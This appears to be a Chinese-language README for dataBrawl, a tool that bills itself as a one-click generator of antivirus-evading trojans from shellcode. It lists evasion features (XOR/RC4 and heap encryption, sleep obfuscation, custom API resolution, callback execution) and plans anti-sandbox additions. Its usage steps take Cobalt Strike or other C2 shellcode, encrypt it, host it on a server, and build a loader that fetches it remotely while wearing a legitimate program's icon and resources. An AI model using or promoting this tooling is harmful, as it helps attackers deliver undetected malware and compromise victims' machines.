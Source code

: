 # dataBrawl

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

（本工具没有追求多而全的加载方式，去除经多次测试无效的加载技术，保留了最实用最接近APT的利用方式。）

**目前已支持：**

1. 分离加载shellcode
2. XOR/RC4 加密
3. 堆加密
4. 自定义sleep混淆
5. 自定义GetProcAddress/GetModuleHandle
6. 回调执行shellcode
7. 一键添加资源信息
8. ...



**待更新：**

1. 将bin转换成图片加载
2. 更多的反沙箱、反分析方式，更多的内存对抗等







## 环境准备

本工具使用mingw编译，需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

<img src="./assets/image-20240417134130271.png" alt="image-20240417134130271" style="zoom:50%;" />



添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库



## 使用说明

```
python dataBrawl.py -h
```

![image-20240417132855251](./assets/image-20240417132855251.png)

#### 远程加载shellcode

CS或其他C2生成shellcode

![image-20240417140327230](./assets/image-20240417140327230.png)

生成处理后的bin文件

```shell
python dataBrawl.py remote D:\Dev\dataBrawl-1.0\calc.bin -c 1
```

将生成在根目录的encrypt.bin上传到服务器

```shell
python dataBrawl.py remote http://127.0.0.1/xorcalc.bin -i D:\Typora\Typora.exe
```

![image-20240417132140197](./assets/image-20240417132140197.png)



![image-20240417132323764](./assets/image-20240417132323764.png)